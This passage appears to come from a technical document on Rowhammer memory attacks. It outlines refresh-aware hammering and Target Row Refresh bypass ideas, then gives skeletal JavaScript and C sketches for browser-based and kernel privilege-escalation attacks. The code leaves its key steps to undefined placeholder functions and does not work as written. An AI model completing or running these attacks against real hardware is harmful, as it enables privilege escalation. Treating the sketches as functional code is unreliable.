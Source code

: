 **Refresh-Aware Hammering**
- Synchronization with auto-refresh cycles
- Temperature-dependent timing adjustments
- Memory controller scheduling analysis

**TRR (Target Row Refresh) Bypass**
- Non-adjacent row patterns
- Randomized access sequences
- Memory pressure-induced timing variations

### 5.3 Multi-Vector Exploitation Chains

**5.3.1 Browser-Based Exploitation**
```javascript
// hammerTIME Browser Exploit Pattern
class BrowserRowhammer {
    constructor() {
        this.aggressors = [];
        this.victimPattern = 0xAAAAAAAA;
    }
    
    async executeAttack() {
        // WebAssembly memory manipulation
        const wasmMemory = new WebAssembly.Memory({initial: 256});
        // ArrayBuffer-based hammering
        const buffers = this.allocateAggressorRows();
        await this.hammerMemory(buffers);
        return this.checkBitFlips();
    }
}
```

**5.3.2 Kernel-Level Exploitation**
```c
// hammerTIME Kernel Privilege Escalation
struct kernel_exploit {
    uint64_t *aggressor1;
    uint64_t *aggressor2; 
    uint64_t *victim;
    int iterations;
};

void hammer_kernel_memory(struct kernel_exploit *exp) {
    for(int i = 0; i < exp->iterations; i++) {
        // Spatial targeting
        *exp->aggressor1 = i;
        *exp->aggressor2 = i;
        // Temporal manipulation
        memory_barrier();
        // Check for privilege escalation
        if(check_privilege_elevation()) {
            execute_root_payload();
        }
    }
}
```
